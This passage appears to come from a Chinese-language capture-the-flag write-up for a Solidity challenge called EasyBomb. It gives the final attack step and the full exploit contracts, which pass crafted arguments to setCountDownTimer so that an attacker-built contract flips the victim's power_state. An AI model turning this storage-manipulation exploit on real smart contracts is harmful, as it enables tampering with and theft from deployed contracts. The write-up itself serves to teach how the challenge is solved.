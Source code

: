 ​ （3）再次通过攻击合约调用目标合约EasyBomb的setCountDownTimer函数，触发我们构建的攻击用Launcher合约的setdeadline(uint256）函数，实现修改power_state的值。

### <a class="reference-link" name="%E5%AE%8C%E6%95%B4%E8%A7%A3%E9%A2%98%E8%BF%87%E7%A8%8B"></a>完整解题过程

​ 攻击合约代码如下：

```
contract Launcher`{`
        ......
`}`
contract EasyBomb`{`
        ......
`}`
contract Launcherhack`{`
    bool private hasExplode;
    address private launcher_address;
    bytes32 private password;
    bool public power_state;
    bytes4 constant launcher_start_function_hash = bytes4(keccak256("setdeadline(uint256)"));
    Launcher launcher;
    function setdeadline(uint256 _deadline) public `{`
        power_state = false;
    `}`
`}`
contract hackeasyboom`{`
    constructor() public `{`
        EasyBomb easyBomb = EasyBomb(0x5ac11A4ED7A810D0B0683ca70D3dF500ce969f8A);
        Launcher target = Launcher(0x6a9bE26DbcfcB597Aef8144fdE7495848de32c75);

        // target.address+00 +password 0x6a9bE26DbcfcB597Aef8144fdE7495848de32c75
         address(easyBomb).call(abi.encodeWithSignature("setCountDownTimer(uint256)",
         0x00000000000000000000006a9bE26DbcfcB597Aef8144fdE7495848de32c7500, 
         0x000000000000666c61677b646f6e4c65745572447265616d4265447265616d7d));
        address(easyBomb).call(abi.encodeWithSignature("setCountDownTimer(uint256)",
        0x00000000000000000000006a9bE26DbcfcB597Aef8144fdE7495848de32c7500, 
        0x000000000000666c61677b646f6e4c65745572447265616d4265447265616d7d));   
    `}` 
`}`
```

​ 首先创建合约Launcherhack，hackeasyboom的中的EasyBomb为题目地址，target为合约Launcherhack的地址，之后创建合约hackeasyboom完成攻击。
